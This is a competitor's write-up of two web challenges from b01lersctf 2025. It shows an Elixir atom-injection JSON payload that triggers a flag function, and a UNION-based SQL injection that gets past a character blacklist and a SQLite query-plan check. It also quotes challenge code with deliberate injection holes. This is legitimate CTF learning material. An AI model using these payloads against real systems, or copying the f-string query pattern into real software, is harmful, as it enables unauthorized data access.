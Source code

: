 ```yaml
---
title: 'some b01lersctf 2025 writeups'
description: 'some b01lersctf 2025 writeups'
date: 2025-04-20
tags: ['web', 'ctf', 'writeup']
image: './boilers.png'
authors: ['jp']
---
```


# Background Information
I participated in b01lersctf 2025 with Cosmic Bit Flips. I need to get better at web fr... (lowkey these solves were kinda meaningless lmao)

# Web

## Atom Bomb

> This new atom bomb early warning system is quite strange...

Ok, looking at the frontend we see a button that will tell us the "bomb alerts" with a bunch of random statuses.

![image](./res/atombomb.png)

Ok, so let's do a little source code analysis and try to find the bug. We find a flag function `bomb()`:

```ex
def bomb() do
    flag = case File.read("flag.txt") do
      {:ok, flag} -> flag
      {:error, _} -> "bctf{REDACTED}"
    end

    "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
  end
```

There is a weakness with the `atomizer` function:

```
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

This allows attackers to create arbitrary atoms from user input if string begins with ":". Atoms can also represent function calls, so we basically need to function call to `bomb()`

Well, when testing I ended up developing a payload that led to a very special error message.

```json
{
  "impact": ":bomb"
}
```

```
{"error":"function :bomb.bomb/0 is undefined (module :bomb is not available)"}
```

:think:. Well, the error tells that the bomb function is undefined since there is no :bomb module, we can just change the payload to the following:

```json
{
  "impact": {
    "bomb": ":Elixir.AtomBomb"
  }
}
```

So basically, what happens is that when it accesses this atom, it will do a function call to bomb, but then throw an exception because it was not expecting string. (ok ngl someone else who solved it can explain it much better lol)

```bash
'key :altitude not found in: "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}\\r\\n"\n\nIf you are using the dot syntax, such as map.field, make sure the left-hand side of the dot is a map'
```

## Defense in Depth

> Instead of making AI slop #7749 and applying to YC, making a security product might be a better play. Layers of defenses

Looking at the frontend we just see a bunch of random text, so let's dig into the source code.

So we see a mysql setup with the flag:

```sql
-- Create database and read-only user
CREATE DATABASE IF NOT EXISTS app_db;
CREATE USER IF NOT EXISTS 'b01lers'@'%' IDENTIFIED BY 'redacted';
GRANT SELECT ON app_db.* TO 'b01lers'@'%';
FLUSH PRIVILEGES;

USE app_db;

-- Create users table
CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE
) ENGINE=InnoDB;

-- Create secrets table
CREATE TABLE IF NOT EXISTS secrets (
    id INT AUTO_INCREMENT PRIMARY KEY,
    `key` VARCHAR(255) NOT NULL,
    value TEXT NOT NULL
) ENGINE=InnoDB;

-- Insert sample data
INSERT IGNORE INTO users (name, email) VALUES
    ('neil', 'freshmen@purdue.eduuu'),
    ('gabe', 'boss@retirement.home'),
    ('kevin', 'frontend@kev.in');

INSERT IGNORE INTO secrets (`key`, value) VALUES
    ('junk', 'Wrong turn baby'),
    ('flag', 'bctf{tungtungtungtungtungsahua}');

-- Verify permissions
SHOW GRANTS FOR 'b01lers'@'%';
```

Ok, and we also have main python backend source code that exposes an sql injection vulnerability which is  `query = f"SELECT * from users WHERE name = '{name}'"`

```python
@app.route('/info/<path:name>', methods=['GET'])
def get_user_info(name):
    if len(name) > 100:
        return jsonify({"Message": "Why the long name? Are you Tung Tung Tung Tung Tung Tung Tung Sahua????"}), 403
    try:
        db = get_db()
        cursor = db.cursor()
    except Exception:
        print(traceback.format_exc())
        return jsonify({"Error": "Something very wrong happened, either retry or contact organizers if issue persists!"}), 500
    
    # Verify that the query is good and does not touch the secrets table
    #ok so this query stuff interacts with the sqlite 
    query = f"SELECT * from users WHERE name = '{name}'"
    for item in BLACKLIST:
        if item in query:
            return jsonify({"Message": f"Probably sus"}), 403
    try:
        explain = "EXPLAIN QUERY PLAN " + query
        cursor.execute(explain)
        result = cursor.fetchall()
        if len(result) > 7:
            return jsonify({"Message": "Probably sus"}), 403
        for item in result:
            if "secrets" in item[3]:
                return jsonify({"Message": "I see where you're going..."}), 403
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({"Message": f"Probably sus"}), 403

    # Now let the query through to the real production db
    
    cursor.close()
    # ohhh fetches the first instance?
    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()[0]
        cur.close()
        return str(records)
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({'Error': "It did not work boss!"}), 400
```

Ok, so we can see it first passes through a bunch of checks before actually being executed and the result being returned to us. The server performs these checks in sqlite3. Here are the checks:

1. If payload is > 100 chars, throw error
2. check if there is any char in blacklist: BLACKLIST = ['(', ')', '-', '#', '%', '+', ';']
3. try EXPLAIN QUERY PLAN our payload, if very complex (len(result) > 7), then throw error. If secrets in the third index of the result, throw error. Finally if the overall EXPLAIN QUERY PLAN fails, also throw error

Finally, if it passes through all these checks, it will open a mysql connection and execute our query and return the result.

Let's craft a sql query that won't throw errors on sqlite3 or mysql and passes all the checks. After some time, I crafted this:

`'OR 1=0 UNION SELECT * FROM secrets AS x WHERE x.key='flag`

And I get the flag:

`(2, 'flag', 'bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}')`